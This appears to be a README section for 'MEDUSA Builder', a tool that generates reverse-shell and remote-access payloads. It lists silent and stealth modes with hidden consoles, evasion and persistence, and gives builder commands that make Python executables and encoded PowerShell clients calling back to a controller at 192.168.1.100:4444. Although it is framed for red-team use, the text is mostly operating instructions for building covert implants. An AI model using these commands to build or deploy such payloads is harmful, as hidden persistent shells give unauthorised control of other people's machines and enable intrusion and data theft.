 ## 🛠️ Builder Tool

### Overview
The MEDUSA Builder generates custom payloads and executables for deployment.

### Web Interface Builder

#### Payload Types
1. **Python Executable**: Full-featured client with EXE compilation
2. **Netcat Reverse Shell**: Lightweight shell commands
3. **PowerShell Script**: Windows PowerShell-based payload

#### Payload Modes (Python Executable)

| Mode | Description | Use Case |
|------|-------------|----------|
| **Silent** | ✅ Completely hidden operation<br>✅ No console window<br>✅ Background execution | Red team exercises, stealth testing |
| **Stealth** | ✅ Enhanced hiding features<br>✅ Process priority management<br>✅ Advanced evasion | Advanced penetration testing |
| **Basic** | ✅ Standard executable<br>✅ Visible console (debugging)<br>✅ Simple deployment | Development, debugging |

#### Generation Process
1. **Access Builder**: Navigate to Builder tab in web interface
2. **Select Type**: Choose payload type (Python recommended)
3. **Configure Options**:
   ```
   Server IP: 192.168.1.100
   Server Port: 4444
   Payload Mode: Silent Stealth
   Output Name: client
   Persistence: [x] Enable
   ```
4. **Generate**: Click "Generate Payload" button
5. **Download**: Files saved to `nova/payloads/` directory

### Command Line Builder

#### Installation
```bash
# Install PyInstaller for EXE building
pip install pyinstaller

# Optional: Install UPX for compression
# Download from https://upx.github.io/
```

#### Usage Examples
```bash
# Generate Python client with EXE
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console

# Generate with persistence
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console --persistence

# Generate PowerShell payload
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell

# Generate encoded PowerShell
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell --encode

```